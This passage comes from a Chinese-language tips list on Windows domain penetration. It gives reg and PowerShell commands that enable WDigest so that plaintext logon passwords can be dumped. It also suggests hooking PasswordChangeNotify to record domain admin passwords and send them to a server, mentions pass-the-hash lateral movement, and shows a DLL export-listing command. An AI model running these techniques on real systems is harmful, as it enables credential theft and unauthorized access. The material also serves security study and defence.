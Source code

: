 解决方法：启用Wdigest Auth

cmd:

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

or

powershell:

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
```

重启或者用户再次登录，能够导出明文口令

参考：

《域渗透——Dump Clear-Text Password after KB2871997 installed》

---

### Tips 18. 可通过Hook PasswordChangeNotify实时记录域控管理员的新密码

当然，可选择保存在本地或是将密码上传至服务器

参考：

《域渗透——Hook PasswordChangeNotify》

---

### Tips 19. 在域渗透时要记得留意域内主机的本地管理员账号

如果管理员疏忽，域内主机使用相同的本地管理员账号，可以通过pass-the-hash远程登录域内其他主机

参考：

《域渗透——Local Administrator Password Solution》

---

### Tips 20. 通过powershell获取dll的导出函数

https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Get-Exports.ps1

```
Get-Exports -DllPath c:\Windows\system32\dimsjob.dll -ExportsToCpp C:\test\export.txt
```

参考：

[《Study Notes Weekly No.3(Use odbcconf to load dll & Get-Exports & ETW USB Keylogger)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.3(Use-odbcconf-to-load-dll-&-Get-Exports-&-ETW-USB-Keylogger)/)

---
